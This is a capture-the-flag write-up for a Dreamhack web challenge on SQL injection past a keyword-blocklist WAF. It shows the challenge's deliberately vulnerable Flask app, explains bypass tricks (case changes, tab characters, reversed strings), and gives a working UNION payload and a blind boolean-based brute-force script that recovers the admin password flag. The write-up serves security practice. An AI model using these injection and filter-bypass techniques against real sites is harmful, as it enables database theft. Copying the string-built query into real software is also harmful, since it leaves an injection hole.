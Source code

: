 ```yaml
---
title: sql injection bypass WAF
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/415/](https://dreamhack.io/wargame/challenges/415/)

## Description

> This is the problem that you practice in the SQL Injection Bypass WAF.

### Attached

```sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```
{: file="./init.sql" }

```py
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')

```
{: file="./app.py" }

## Analyzation

The ```user``` table has 3 columns: ```idx```, ```uid``` and ```upw```.

```sql
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);
```

And flag is admin's password
```sql
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
```

Our target is to get admin's password.

Check [```check_WAF()```](https://www.cloudflare.com/learning/ddos/glossary/web-application-firewall-waf/) function

```py
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False
```

So the ```keywords``` array is blacklist
```py
if check_WAF(uid):
    return 'your request has been blocked by WAF.'
```

Check ```index()``` function

```py
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template
```

- After the ```uid``` is get by ```GET``` method, it will be checked by ```check_WAF(uid)```.

- Then the server will send query to sql database, and send back result: ```cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")```

- If result exists, the template will show one ```uid``` only (```result[0]``` is ```idx```, ```result[1]``` is ```uid```, ```result[2]``` is ```upw``` ). Else empty string will be displayed.

WAF blocks ```"union"```, ```"select```, but ```"Union"```, ```"Select"``` can be used to bypass the WAF.

If ```"admin"``` is blocked, a function can be used, like ```reverse(\"nimda\")```, or ```concat('admi','n')```, or simply ```"Admin"```.

The WAF only blocks space ```%20```. It does not block tab ```%09```, so it can be used. (See [ascii table](https://www.asciitable.com/)).

## Solution 1: [SQLI UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

Original query
```sql
SELECT * FROM user WHERE uid='{uid}';
```

If we make a payload, as usual
```
'	Union	Select	1,upw,3	From	user	Where	uid='Admin
```

Then the query now will be
```sql
SELECT * FROM user WHERE uid=''	Union	Select	1,upw,3	From	user	Where	uid='Admin';
```

And we get the flag
```
DH{bc818d522986e71f9b10afd732aef9789a6db76d}
```

## Solution 2: Blind sqli by error-based

After getting password, we can check its character, one by one by

```sql
SELECT * FROM user WHERE uid='admin' && if(ascii(substr(upw, 1, 1)) = 124, true, false)#;
```

- If the ```if``` statement is true, the query will return admin, and login successfully.

```py
import requests

URL = "http://host3.dreamhack.games:16703/?uid='||uid%3Dreverse(\"nimda\")%26%26if(ascii(substr(upw%2C{}%2C1))%3D{}%2Ctrue%2Cfalse)%23"

flag = ""

for i in range(1, 50):
    for j in range(32, 129):
        response = requests.get(URL.format(i, j))
        print(chr(j))
        if 'admin' in response.text:
            flag += chr(j)
            print(f"----flag: {flag}")
            if flag[-1] == '}':
                exit()
            break

```

The flag is
```
DH{bc818d522986e71f9b10afd732aef9789a6db76d}
```